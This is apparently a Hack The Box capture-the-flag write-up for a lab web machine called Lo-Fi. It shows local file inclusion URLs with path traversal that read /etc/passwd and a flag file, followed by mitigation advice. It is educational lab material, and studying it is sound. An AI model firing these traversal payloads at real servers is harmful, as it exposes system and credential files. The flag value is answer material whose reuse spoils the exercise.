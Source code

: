 
# Hack The Box – Lo-Fi Write-Up

**Machine Name**: Lo-Fi  
**Difficulty**: Easy  
**Category**: Web  
**IP**: `10.10.40.57`  

---

## Summary

This machine presented a classic **Local File Inclusion (LFI)** vulnerability in a PHP web application. By manipulating the URL parameters, I was able to read arbitrary files on the server, including the system’s `/etc/passwd` and ultimately retrieve the flag from `flag.txt`.

---

## Recon

### Step 1: Access the Target Website

I began by browsing the web server hosted at:

```
http://10.10.40.57
```

The page displays a Lo-Fi themed site with links like:

```
http://10.10.40.57/?page=Relax
```

Clicking around revealed a pattern in the URL — the `page` parameter was being used to dynamically load content. This is a common setup vulnerable to **Local File Inclusion (LFI)**.

---

## Exploitation

### Step 2: Test for LFI

To test for LFI, I tried accessing the Linux password file using relative path traversal:

```
http://10.10.40.57/?page=../../../../../etc/passwd
```

And successfully got the following output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

This confirmed that the server was vulnerable to Local File Inclusion.

---

## Capture the Flag

### Step 3: Locate and Read the Flag

Knowing that LFI was possible, I guessed a potential location for the flag file:

```
http://10.10.40.57/?page=../../../../../flag.txt
```

The server responded with:

```
flag{e4478e0eab69bd642b8238765dcb7d18}
```

---

## Conclusion

The Lo-Fi machine was successfully pwned using a simple LFI vulnerability. This exercise highlights the importance of validating and sanitizing user input in URL parameters, especially when including files dynamically.

---

## Mitigation

To prevent LFI vulnerabilities:

- Avoid directly including files based on user input.
- Sanitize and whitelist valid inputs.
- Disable error messages in production.
- Use frameworks or routing systems that abstract file inclusion logic securely.

---
